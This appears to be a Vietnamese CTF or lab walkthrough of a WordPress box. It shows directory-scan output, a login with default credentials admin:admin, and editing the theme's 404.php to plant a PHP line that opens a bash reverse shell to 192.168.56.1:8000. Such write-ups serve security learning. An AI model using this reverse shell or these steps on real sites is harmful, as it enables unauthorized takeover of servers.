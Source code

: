 ```bash
[11:06:05] 403 -  302B  - /secret/.htaccess.save
[11:06:05] 403 -  300B  - /secret/.htaccessOLD
[11:06:05] 403 -  301B  - /secret/.htaccessOLD2
[11:06:05] 403 -  300B  - /secret/.htaccess_sc
[11:06:05] 403 -  292B  - /secret/.htm
[11:06:05] 403 -  293B  - /secret/.html
[11:06:05] 403 -  298B  - /secret/.htpasswds
[11:06:05] 403 -  302B  - /secret/.htpasswd_test
[11:06:05] 403 -  299B  - /secret/.httr-oauth
[11:06:05] 403 -  293B  - /secret/.php3
[11:06:05] 403 -  292B  - /secret/.php
[11:06:17] 301 -    0B  - /secret/index.php  ->  http://vtcsec/secret/
[11:06:17] 404 -   49KB - /secret/index.php/login/
[11:06:18] 200 -    7KB - /secret/license.txt
[11:06:24] 200 -    3KB - /secret/readme.html
[11:06:30] 301 -  310B  - /secret/wp-admin  ->  http://vtcsec/secret/wp-admin/
[11:06:30] 500 -    3KB - /secret/wp-admin/setup-config.php
[11:06:30] 302 -    0B  - /secret/wp-admin/  ->  http://vtcsec/secret/wp-login.php?redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&reauth=1
[11:06:30] 400 -    1B  - /secret/wp-admin/admin-ajax.php
[11:06:30] 200 -    0B  - /secret/wp-config.php
[11:06:30] 200 -  530B  - /secret/wp-admin/install.php
[11:06:30] 200 -    0B  - /secret/wp-content/
[11:06:30] 301 -  312B  - /secret/wp-content  ->  http://vtcsec/secret/wp-content/
[11:06:30] 200 -   84B  - /secret/wp-content/plugins/akismet/akismet.php
[11:06:30] 500 -    0B  - /secret/wp-content/plugins/hello.php
[11:06:30] 200 -  454B  - /secret/wp-content/uploads/
[11:06:30] 200 -    0B  - /secret/wp-cron.php
[11:06:30] 301 -  313B  - /secret/wp-includes  ->  http://vtcsec/secret/wp-includes/
[11:06:30] 500 -    0B  - /secret/wp-includes/rss-functions.php
[11:06:31] 302 -    0B  - /secret/wp-signup.php  ->  http://vtcsec/secret/wp-login.php?action=register
[11:06:31] 200 -    1KB - /secret/wp-login.php
[11:06:32] 405 -   42B  - /secret/xmlrpc.php
[11:06:35] 200 -    4KB - /secret/wp-includes/
```
-> Day la web su dung `WordPress`
# Exploitation
## WordPress (80)
Ta thu kiem tra `/wp-login`:
![[Pasted image 20250308111051.png]]
Thu credential `admin:admin`
![[Pasted image 20250308111137.png]]
Ta da co quyen `admin` voi  website nay
Khi co quyen admin voi wordpress, ban co the co ti cach de lay dc `RCE`, trong do ta co the chinh sua file php cua cac plugin hoac theme.
O day ta se su dung theme, ta sua tai `/wp-admin/theme-editor.php`:
![[Pasted image 20250308112412.png]]
De de cho exec ta se sua 404.php
![[Pasted image 20250308112457.png]]
Gio thi de exec `404.php`, ta se su dung URL: `/wp-content/themes/[ten theme]/404.php`
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/8000 0>&1'");
```
